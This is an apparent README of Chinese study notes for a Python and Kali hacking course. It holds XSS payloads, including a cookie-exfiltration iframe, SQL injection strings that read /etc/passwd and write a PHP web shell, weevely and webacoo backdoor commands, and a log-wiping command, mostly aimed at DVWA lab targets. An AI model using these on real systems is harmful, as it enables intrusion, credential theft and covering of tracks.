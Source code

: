 # [乾颐堂](https://www.qytang.com/) Python+Kali黑客全套教程

## 0x00 视频 + 源码 + PDF

- videos
  - [Python+Kali黑客全套教程，全程干货+实战技术，小白学习从入门到入狱](https://www.bilibili.com/video/BV17V4y157ih/?spm_id_from=333.337.search-card.all.click&vd_source=7f220845f0d7bc792a045e75a5ac8b8d)
  - [python+kali的全套黑客编程实践教程，全知识点+实践练习，（针对小白/python/kali/网络安全）](https://www.bilibili.com/video/BV1bG4y1H784/?spm_id_from=333.337.search-card.all.click&vd_source=7f220845f0d7bc792a045e75a5ac8b8d)
  - [Python+Kali黑客全套教程，全程干货+实战技术，小白学习从入门到入狱](https://www.bilibili.com/video/BV17V4y157ih/?vd_source=7f220845f0d7bc792a045e75a5ac8b8d#reply136957487232)

- 源码 + PDF

  需要 + up 主 wx

- PDF

  暂存本地 [python&kali 教程](待定)



## 0x01 简单记录

<!--last modify: 20230922-->

- 扫描工具

  ping  /  fping / nping / arping / nbtscan / onesixtyone

- python + nmap

  ```tex
  # https://pypi.org/project/python-nmap/
  # pip install python-nmap
  # import nmap
  ```

  - pypi 中有相关使用方法

- 痕迹清理

  ```shell
  del %WINDIR%\*.log /a/s/q/f # 强制静默删除只读文件
  ```

- nexpose api

  ```tex
  https://<host>:<port>/api/api-version/xml
  ```

- 协议攻击

  ```tex
  mac 泛洪 + mac 欺骗
      macof
      # 防御 port security 技术
  
  dhcp 攻击
      pig.py 干掉合法dhcp 服务器
      非法dhcp 服务器开始干活儿
      # 防御 dhcp snooping 技术
  
  arp 攻击
      arpspoof
      # 防御 DAI 技术
  
  dns spoofing
      ettercap # dns 欺骗
      set # 社会工程学
  ```

- windows 沙盒探测



- web 工具

  ```tex
  BurpSuite
  	Proxy 代理 / Intruder 攻击 / Repeater 重放
      Comparer 可比较两个不同请求页面的响应区别
      Spider 手工爬取+自动爬取
      Scanner 手工+自动
      Sequencer 自动确认Cookies 随机性
      Decoder + Extender 编/解码(绕过) + 扩展(WAF 绕过等)
  AppScan
  ```

- XSS POC & 攻击技巧

  ```tex
  # 手工改确认
  	1. 脚本：<script>alert('xss')</script> # <scr<Script>ipt>alert('xss')</script>
  	2. 超链接：<a href='' onclick=alert('xss')>click it</a>
  	3. 图片：<img src=http://172.16.1.23/a.jpgg onerror=alert('xss')>
  	4. 重定向：<script>window.location="http://www.testfire.net/index.jsp"</script>
  	5. iframe：<iframe width=300 height=100 src="http://dvwa.com/xss_vul/?name=<script>window.location='http://baidu.com/login_cookie.php?sid='%2Bdocumet.cookie;</script>"></iframe>
  	6. DOM：<script>document.body.ierHTML="<div style=visibility.visible;><br/><br/><h1>test</h1></div>";</script>
  
  # 攻击技巧
  	1. hook
  	2. keylogger
      /*
      1. 诱导受害者访问钓鱼网站
      2. 钓鱼网站触发访问目标(可信本地存在cookie)站点
      3. 触发本地PC 下载hook.js 文件
      4. 本地PC 运行hook.js 文件，获取cookie
      5. 发给hacker 站点，收集cookie
      6. hacker 站点以邮件形式发出
  
      http://target.vulhost.com/xss.php # 目标站点
      http://gofish.hack.net/index.jsp # 社工伪造钓鱼网站
      http://hook.hack.net/xss_hook.js # hook 站点
      http://collect.hack.net/xss_hook2email.php # 通过hook 站点收集信息的站点
      */
  
  # 注入点/注入位置
  [XSS 注入点](https://www.xjx100.cn/news/432525.html?action=onClick)
  # 常见绕过方式
  (替换)双写/大小写/转码
  # 存储型XSS
  前端表单长度限制，PC 端修改源码
  1 DOM 型XSS
  在URL 中符号'#' 后面的不会发送给服务端，但响应页面包含符号'#' 后内容且运行写入内容至PC 页面
  存在解码与否问题
  ```
  
- XSS 工具

  ```tex
  # xsser
      1. xsser -u "http://dvwa.com/vulnerabilities/xss_r/" -g "?name=" --cookie="PHPSESSID=h5btppesjqq99igfrc2lr24in4; security=low" -s -V --reverse-check # 反向检查
      2. xsser -u "http://dvwa.com/vulnerabilities/xss_r/" -g "?name=" --cookie="PHPSESSID=h5btppesjqq99igfrc2lr24in4; security=low" -s -V --heuristic # 检查
  
  # BeEF / beef-xss
  	Hooked 主机信息/键盘与鼠标记录查询/Commands 命令模块(颜色)
  	1. Get Cookie / 查表单填写内容 / 获取或修改页面超链接 / 弹出警告页面 / 查询Bug 软件 / 浏览器页面拍照 / 控制PC 进行DoS 等攻击 / 禁止关闭窗口 / 弹窗
  ```
  
- 密码破解

  ```tex
  # hash-identifier
  # john
  	john --format=raw-MD5 user_pass.txt --show
  ```

- SQL 注入

  ```tex
  # 读取服务器重要文件
  ' union select null, load_file('/etc/passwd') --+
  
  # 禁用PrivateTemp 功能
  # /usr/lib/systemd/system/mariadb.service
  # /user/lib/systemd/system/httpd.service
  # 修改PrivateTemp=off
  systemctl daemon-reload
  systemctl restart mariadb.service
  systemctl restart httpd.service
  
  # 写入文件
  ' union select null, "<?php passthru($_GET['cmd']); ?>" into dumpfile "/tmp/cmd.php" --+
  
  # 文件包含漏洞执行代码
  http://www.dvwa.com/vulnerabilities/fi/?page=/tmp/cmd.php&cmd=id
  
  # 防WAF 过滤对PHP 脚本进行转码
  <?php passthru($_GET['cmd']);?> # shell_cmd.php
  
  # 转16 进制
  echo "<?php passthru($_GET['cmd']);?>" |xxd -ps |tr -d '\n' # 3c3f706870207061737374687275285b27636d64275d293b3f3e0a
  
  # 注入
  ' union select null, (3c3f706870207061737374687275285b27636d64275d293b3f3e0a) into dumpfile "/tmp/cmd.php" --+
  
  # 文件包含漏洞执行代码
  http://www.dvwa.com/vulnerabilities/fi/?page=/tmp/cmd.php&cmd=id
  
  # 数据库写入文件
  ' union select null, concat(user, 0x3a, password) from users into outfile '/tmp/mysql.db' --+
  # 批量下载数据库
  http://www.dvwa.com/vulnerabilities/fi/?page=/tmp/mysql.db
  ```

- SQL 注入无权查询inforation_schema 表时

  ```tex
  # ' and column_name is null --+ # 猜列名
  select * from users where id = '' and column_name is null --+ # 如column_name 为username
  
  # ' or column_name='column_value # 猜列值，如列名user 中是否有admin
  # ' or column_name like '%char% # 猜列值，如列名user 中列值是否包含字符a
  # ' or column_name='column_value1' and column_value2='5f4dcc3b5aa765d61d8327deb882cf99 # 爆破密码，如已知列名user 和列值1 为admin，猜另一列值password 
  
  # ' and tables_name.column_name is null --+ # 猜表名
  select * from users where id = '' and tables_name.column_name is null --+ # 如tables_name.column_name 为users.username
  
  # ' and (select count(*) from tables_name) > 0 --+ # 猜表名，可暴露当前使用的数据库名
  ```
  
- CSRF 攻击

  ```tex
  # 关键性操作，二次验证；付款、改密等
  # BP 抓包右击》Engagement tools》Generate CSRF PoC (生成的HTML 视情况修改)
  
  # 攻击技巧
      1. 诱导受害者访问钓鱼网站
      2. 触发本地PC 下载hook.js 文件
      3. 本地PC 运行hook.js 文件，获取包含动态token 的cookie
      4. 利用包含动态token 的cookie 发起CSRF 攻击
  
  # 防御 & 辅助措施
  	1. 嵌入令牌/二次确认/Referer 确认
  	2. 发邮件/短信
  	
  # webshell
  	1. WeBaCoo // 通过Cookie 字段传输；cm 为base64 编码命令，cn 为服务器用于返回数据的cookie 名，cp 为返回信息定界符
  		webacoo -g -o backdoor_webacoo.php # -g 服务端脚本，-o 生成文件
  		webacoo -t -u http://target.vulhost.com/backdoor_webacoo.php # 上传文件至目标站点后进行连接
  	2. Weevely // 加密传输，有自带模块
  		weevely generate password backdoor_weevely.php # 生成带密码的后门
  		weevely http://target.vulhost.com/backdoor_weevely.php password # 上传文件至目标站点后进行连接
  		# 自带模块
  		help/system_info/audit_phpconf/backdoor_reversetcp/net_proxy/net
  ```

- 
